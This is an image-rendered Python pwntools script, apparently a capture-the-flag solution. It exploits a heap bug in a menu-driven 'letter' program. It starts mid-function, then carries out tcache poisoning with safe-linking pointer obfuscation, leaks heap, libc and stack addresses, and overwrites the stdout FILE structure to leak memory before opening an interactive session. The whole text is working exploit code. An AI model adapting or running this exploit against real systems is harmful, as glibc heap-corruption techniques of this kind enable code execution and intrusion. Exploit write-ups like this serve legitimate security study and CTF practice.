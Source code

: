 ```py
    a = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (a & (0xf << i+12 )) >> i+12
        a |= (v1 ^ v2) << i
    return a

def obfuscate(x, adr):
    return x^(adr>>12)

def write_letter(index,size,content):
    p.sendlineafter(b">",b"1")
    p.sendlineafter(b"idx:",str(index).encode())
    p.sendlineafter(b"size:",str(size).encode())
    p.sendlineafter(b"content",content)

def send_letter(index):
    p.sendlineafter(b">",b"2")
    p.sendlineafter(b"idx:",str(index).encode())

def read_letter(index):
    p.sendlineafter(b">",b"3")
    p.sendlineafter(b"idx:",str(index).encode())
    return(p.recvline()[1:-1])

for i in range(7):
    write_letter(i,0x100,b"a"*8)
write_letter(8,0x100,b"prev"*8)
write_letter(9,0x100,b"c"*8)
write_letter(10,0x90,b"d"*8)
for i in range(7):
    send_letter(i)
send_letter(9)
send_letter(8)
write_letter(10,0x100,b'a'*8)
send_letter(9)
heap_leak = defuscate(u64(read_letter(1).ljust(8,b"\x00")))
libc.address = u64(read_letter(8).ljust(8,b"\x00")) - 0x219ce0
log.critical(f"libc base: {hex(libc.address)}")
log.critical(f"heap leak: {hex(heap_leak)}")

write_letter(1,0x130,b"a"*0x108 + p64(0x111) + p64(obfuscate(libc.sym._IO_2_1_stdout_,heap_leak+0x880)))
write_letter(2,0x100,b"a"*8)
environ = libc.sym.environ
payload = p32(0xfbad1800) + p32(0) + p64(environ)*3 + p64(environ) + p64(environ + 0x8)*2 + p64(environ + 8) + p64(environ + 8) + p64(0x0)*3
write_letter(3,0x100,payload)
stack_leak = u64(p.recvuntil(b"\x00\x00")[2:].ljust(8,b"\x00"))
log.critical(f"stack leak: {hex(stack_leak)}")
log.critical(f"rip : {hex(stack_leak-0x168)}")

p.interactive()
```
